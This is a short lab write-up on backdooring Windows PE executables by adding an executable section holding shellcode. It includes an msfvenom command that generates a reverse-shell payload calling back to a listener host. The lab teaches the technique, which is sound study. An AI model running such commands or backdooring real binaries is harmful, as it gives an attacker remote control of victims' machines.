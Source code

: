 # Backdooring PE Files with Shellcode
*The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.*

*High level process of this technique:*

*-Add a new RWX PE section, big enough to hold our shellcode, to any .exe file*  
*-Generate shellcode*  
*-Add shellcode to the newly created PE section*  
*-Redirect execution flow of the .exe file being backdoored to the shellcode*  
*-Redirect execution flow back to the legitimate .exe instructions*  

# Generate Shellcode
*First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:*

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)
*Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.*
